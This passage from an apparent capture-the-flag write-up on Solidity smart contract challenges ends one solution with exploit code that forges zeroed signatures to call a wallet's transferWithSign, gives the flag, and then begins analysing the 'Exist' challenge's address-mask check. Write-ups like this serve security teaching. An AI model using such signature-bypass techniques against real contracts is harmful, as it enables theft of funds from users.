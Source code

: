 ```solidity

        SignedByowner[] memory signs = new SignedByowner[](5);
        for (uint256 i = 0; i < 5; i++) {
            signs[i] = SignedByowner(Holder(owners[i], "", true, ""), Signature(17, [bytes32(0), bytes32(0)]));
        }

        wallet.transferWithSign(address(this), 100 * 10 ** 18, signs);
    }
}
```

Flag: `0x4c7d8e17af758ca5204f61c16ea4353387352aeb`

### Exist

[Source](Exist)

>Was vernünftig ist, das ist wirklich; und was wirklich ist, das ist vernünftig. ——G. W. F. Hegel

The goal of this challenge is to set `flag` to `true` by executing the following `setflag` function.

```solidity
    function setflag() external {
        if (balanceOf[msg.sender] >= totalSupply) {
            flag = true;
        }
    }
```

To set `flag` to `true`, the token balance of `msg.sender` needs to be greater than or equal to `totalSupply`. The following `share_my_valut` can be used to satisfy this.

```solidity
    function share_my_vault() external only_EOA(msg.sender) only_family {
        uint256 add = balanceOf[address(this)];
        _transfer(address(this), msg.sender, add);
    }
```

This function can only be called from EOAs and must meet the condition of the `only_family` modifier. The `only_family` modifier executes the following `is_my_family` function with `msg.sender` as an argument.

```solidity
    function is_my_family(address account) internal returns (bool) {
        bytes20 you = bytes20(account);

        bytes20 code = maskcode;
        bytes20 feature = appearance;

        for (uint256 i = 0; i < 34; i++) {
            if (you & code == feature) {
                return true;
            }

            code <<= 4;
            feature <<= 4;
        }
        return false;
    }
```

